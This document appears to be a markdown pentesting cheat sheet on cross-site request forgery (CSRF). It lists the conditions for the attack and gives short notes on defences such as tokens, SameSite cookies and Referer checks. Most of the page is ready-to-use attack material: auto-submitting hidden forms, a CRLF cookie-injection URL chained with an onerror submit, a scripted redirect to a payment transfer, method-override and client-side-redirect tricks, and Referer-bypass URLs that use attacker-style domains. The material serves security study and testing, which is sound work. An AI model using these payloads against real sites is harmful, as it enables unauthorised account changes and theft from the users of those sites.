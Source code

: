 # CSRF

## <mark style="color:yellow;">Conditions</mark>

* A relevant action. (e.g. change password)
* Cookie-based session handling
* No unpredictable request parameters. If you need to know the value of the existing password it's not vulnerable

## <mark style="color:yellow;">**Exploit**</mark>

**With POST**

```html
<html>
    <body>
        <form action="https://vulnerable-website.com/email/change" method="POST">
            <input type="hidden" name="email" value="pwned@evil-user.net" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```

**With GET**

```html
<img src="https://vulnerable-website.com/email/change?email=pwned@evil-user.net">
```

## <mark style="color:yellow;">Defences</mark>

<details>

<summary>CSRF tokens</summary>

A CSRF token is a unique, secret, and unpredictable value that is generated by the server-side application and shared with the client

```html
<form name="change-email-form" action="/my-account/change-email" method="POST">
    <label>Email</label>
    <input required type="email" name="email" value="example@normal-website.com">
    <input required type="hidden" name="csrf" value="50FaWgdOhi9M9wyna8taR1k3ODOR8d6u">
    <button class='button' type='submit'> Update email </button>
</form>
```

</details>

<details>

<summary>SameSite cookies</summary>

Controls whether or not a cookie is sent with cross-site requests

If the website doesn't explicitly set a `SameSite` attribute, Chrome automatically applies `Lax` restrictions by default.

* `Strict` Means that the browser sends the cookie only for same-site requests

<!---->

*   `Lax` Means that browser sends the cookie in cross-site requests, if:

    * The request uses the `GET` method.
    * The request resulted from a top-level navigation by the user, such as clicking on a link.

    The cookie is not sent on cross-site requests, such as on requests to load images or frames.
* `None` Means that the browser sends the cookie with both cross-site and same-site requests. The `Secure` attribute must also be set when setting this value, like so `SameSite=None; Secure`

</details>

<details>

<summary>Referer-based validation</summary>

Some applications make use of the HTTP Referer header to attempt to defend against CSRF attacks, normally by verifying that the request originated from the application's own domain

</details>

## <mark style="color:yellow;">CSRF tokens bypass</mark>

* Switch from POST to the GET method to bypass
* Remove the entire parameter containing the token
* Sometimes you don't need a valid token (the app doesn't keep valid server-side tokens).
  * Simply invent a token in the required format
* Some apps don't validate if the token belongs to the same session as the requesting user.
  * Log in to the application with your account, obtain a valid token, and then feed that token to the victim user in their CSRF attack
*   Some apps do tie the CSRF token to a cookie, but not to the session cookie. So there are two token: one in a cookie and one in hidden input. (this can also have the same value)

    * Can you set a cookie? Ex. Header injection with `CRLF`.(`%0d%0a`)
    * ```
      /?search=test%0d%0aSet-Cookie:%20csrfKey=YOUR-KEY%3b%20SameSite=None
      ```
    * Log in to the application with your account -> obtain a valid token and associated cookie.
    * Generate CSRF PoC and remove the auto-submit `<script>` block. Then add the following code to inject the cookie.

    ```html
    <img src="https://vulnerable-website.com/?search=test%0d%0aSet-Cookie:%20csrfKey=YOUR-KEY%3b%20SameSite=None" onerror="document.forms[0].submit()">
    ```

## <mark style="color:yellow;">SameSite cookies bypass</mark>

### Lax bypass

* Using GET requests (bypass lax)

```html
<script>
    document.location = 'https://vulnerable-website.com/account/transfer-payment?recipient=hacker&amount=1000000';
</script>
```

* GET method override (bypass lax)
  * Even if an ordinary `GET` request isn't allowed, some frameworks supports `_method` parameter. (Other frameworks support a variety of similar parameters)
  * ```http
    GET /my-account/change-email?email=a@a.com&_method=POST HTTP/1.1
    ```

### <mark style="color:yellow;">Strict bypass</mark>

Bypass via client-side redirect. Consider a page `https://vulnerable-website.com/post/confirm?postId=10` that load this script.

```javascript
redirectOnConfirmation = () => {
    setTimeout(() => {
        const url = new URL(window.location);
        const postId = url.searchParams.get("postId");
        window.location = '/post/' + postId;
    }, 3000);
}
```

```html
<script>
    document.location = "https://vulnerable-website.com/post/confirm?postId=10/../../my-account/change-email?email=a@a.com";
</script>
```

{% hint style="info" %}
**Note**: this attack isn't possible with server-side redirects, as browsers recognize the cross-site request and apply cookie restrictions.
{% endhint %}

## <mark style="color:yellow;">Referer-based validation bypass</mark>

* Some apps validate the Referer header if present, but skip if omitted
  * `<meta name="referrer" content="never">`
* Validation of Referer can be circumvented
  * ```
    http://vulnerable-website.com.attacker-website.com/csrf-attack
    http://attacker-website.com/csrf-attack?vulnerable-website.com
    http://attacker-website.com/vulnerable-website.com
    ```
  * Tip: Instead of use `http://attacker-website.com/vulnerable-website.com` that looks strange you can use `http://attacker-website.com/` and add `<script>history.pushState('', '', '/attacker-website.com')</script>`
  * Note: Add `Referrer-Policy: unsafe-url`. One way to set it in html: `<meta name="referrer" content="unsafe-url"/>`

Firefox 87 new default Referrer Policy `strict-origin-when-cross-origin` trimming user sensitive information like path and query string to protect privacy. ([https://blog.mozilla.org/security/2021/03/22/firefox-87-trims-http-referrers-by-default-to-protect-user-privacy/](https://blog.mozilla.org/security/2021/03/22/firefox-87-trims-http-referrers-by-default-to-protect-user-privacy/))
